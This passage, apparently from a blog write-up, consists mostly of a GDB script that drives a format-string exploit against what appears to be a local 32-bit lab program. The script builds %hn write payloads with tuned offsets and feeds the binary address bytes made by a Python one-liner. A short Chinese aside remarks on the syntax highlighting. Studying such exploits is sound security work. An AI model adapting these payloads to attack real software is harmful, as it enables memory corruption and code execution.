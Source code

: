 set $fmt_flag2 += 20000
end

define default_start
r `python -c "print '\x00\x29\x40\x1a'[::-1]"` AAAAAAAAAAAAAAA
end

define show_input
printf "%%%dx%%%d$hn %%1$*%d$x ", $val, $adr_offset
printf "%%1$*%d$x %%1073741824$\n", $fmt_arg, $fmt_flag2
end

set $val = 0xbfff
set $adr_offset = 4845
set $fmt_arg = 13992
set $fmt_flag2 = 269158516
set $fmt_extra = 39

define attach_mod
set $adr_offset = 4842
set $fmt_flag2 = 269158500
end
{% endhighlight %}

## 題外話

上面的 highlight 設定的是 php 語法  
意外的挺適合的 (ﾟ∀ﾟ)
